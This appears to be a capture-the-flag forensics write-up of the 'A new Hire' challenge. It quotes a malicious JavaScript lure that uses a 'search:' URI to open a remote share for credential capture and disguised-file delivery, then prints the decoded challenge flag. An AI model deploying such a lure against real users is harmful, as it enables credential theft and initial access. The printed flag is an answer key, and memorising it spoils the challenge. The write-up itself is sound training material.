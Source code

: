 # Challenge
A new Hire

The Royal Archives of Eldoria have recovered a mysterious document—an old resume once belonging to Lord Malakar before his fall from grace. At first glance, it appears to be an ordinary record of his achievements as a noble knight, but hidden within the text are secrets that reveal his descent into darkness.

![[HTB Apocalypse/forensics/A new Hire/assets/Pasted image 20250322190826.png]]

inspecting the page, we found a malicious script
![[HTB Apocalypse/forensics/A new Hire/assets/Pasted image 20250322190842.png]]

The exploit appears to involve **capturing SMB credentials** via a malicious JavaScript payload. The key part of the attack is in this function:

``` javascript
function getResume() {
      window.location.href=`search:displayname=Downloads&subquery=\\\\${window.location.hostname}@${window.location.port}\\3fe1690d955e8fd2a0b282501570e1f4\\resumes\\`;
    }
```
visiting the directory, we can find some other directories. Enumerating each directories until we got the flag.

![[HTB Apocalypse/forensics/A new Hire/assets/Pasted image 20250322191238.png]]

![[HTB Apocalypse/forensics/A new Hire/assets/Pasted image 20250322191255.png]]

from config/client.py we got some key, decoding this will get us the flag. 
![[HTB Apocalypse/forensics/A new Hire/assets/Pasted image 20250322191327.png]]

``` python
key = base64.decode("SFRCezRQVF8yOF80bmRfbTFjcjBzMGZ0X3MzNHJjaD0xbjF0MTRsXzRjYzNzISF9Cg==")
```

![[HTB Apocalypse/forensics/A new Hire/assets/Pasted image 20250322191358.png]]


```
HTB{4PT_28_4nd_m1cr0s0ft_s34rch=1n1t14l_4cc3s!!}
```